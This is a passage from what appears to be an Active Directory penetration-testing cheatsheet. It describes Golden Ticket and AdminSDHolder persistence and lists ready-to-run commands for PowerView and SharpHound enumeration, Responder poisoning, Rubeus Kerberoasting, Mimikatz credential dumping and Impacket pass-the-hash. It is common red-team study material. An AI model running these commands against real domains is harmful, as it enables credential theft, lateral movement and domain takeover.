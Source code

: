 
#### **3. Domain Dominance & Persistence** 👑
* **Golden Ticket Attack:** The ultimate persistence technique. It uses the NTLM hash of the **`krbtgt` account** to forge Kerberos Ticket-Granting Tickets (TGTs). This allows an attacker to impersonate *any* user in the domain at *any* time.
* **AdminSDHolder:** A persistence mechanism where an attacker modifies the ACL of the `AdminSDHolder` container, adding their backdoor account. A process called SDProp will then automatically apply these permissions to all protected groups (like Domain Admins).

***

### <a name="active-directory-commands-cheatsheet"></a>Active Directory Commands Cheatsheet

#### **1. Enumeration & Situational Awareness**
* **PowerView:**
    ```powershell
    Get-NetDomain
    Get-NetGroupMember -GroupName "Domain Admins"
    Get-NetUser -SPN
    ```
* **BloodHound / SharpHound:**
    ```powershell
    # Collect all data and create a ZIP file
    SharpHound.exe --collectionmethod All --zipfilename loot.zip
    ```

---

#### **2. Credential Attacks & Hash Grabbing**
* **Responder (LLMNR/NBT-NS Poisoning):**
    ```bash
    sudo responder -I eth0 -v
    ```
* **Rubeus (Kerberoasting & AS-REP Roasting):**
    ```powershell
    # Kerberoast
    Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt
    # AS-REP Roast
    Rubeus.exe asreproast /outfile:asrep_hashes.txt
    ```

---

#### **3. Exploitation, Lateral Movement & Privilege Escalation**
* **Mimikatz (Credential Dumping):**
    ```powershell
    # Requires local admin privileges
    privilege::debug
    sekurlsa::logonpasswords
    ```
* **Impacket Suite:**
    ```bash
    # Pass-the-Hash with psexec
    impacket-psexec <DOMAIN>/<USER>@<TARGET_IP> -hashes <LM_HASH>:<NT_HASH>